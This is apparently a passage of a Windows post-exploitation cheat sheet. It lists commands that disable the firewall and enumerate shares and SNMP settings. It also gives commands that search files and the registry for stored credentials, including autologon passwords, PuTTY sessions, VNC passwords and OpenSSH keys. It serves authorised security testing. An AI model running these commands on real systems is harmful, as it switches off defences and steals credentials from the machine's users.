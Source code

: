 List the Firewall's Blocked Ports:

```
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```

Disable Firewall:

```
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
```

List Network Shares:

```
net share
powershell Find-DomainShare -ComputerDomain domain.local
```

SNMP Configuration:

```
reg query HKLM\\SYSTEM\\CurrentControlSet\\Services\\SNMP /s
Get-ChildItem -path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\SNMP -Recurse
```

#### Credential-Based Access

Finding credentials from configuration files:

```
dir /s /b /p *pass* == *cred* == *vnc* == *.config* == *conf* == *ini*
findstr /si /m password *.xml *.ini *.txt
```

Credentials contained in the Registry:

```
 reg query HKLM /f pass /t REG_SZ /s
 reg query HKCU /f pass /t REG_SZ /s
 
 reg query HKLM /f password /t REG_SZ /s
 reg query HKCU /f password /t REG_SZ /s
 
 # Windows Autologin
 reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
 reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
  
  # SNMP parameters
 reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
 
 # Putty credentials
 reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
 reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\
 
 # VNC credentials
 reg query "HKCU\Software\ORL\WinVNC3\Password"
 reg query "HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4" /v password
 
 ## OpenSSH credentials
 reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
```
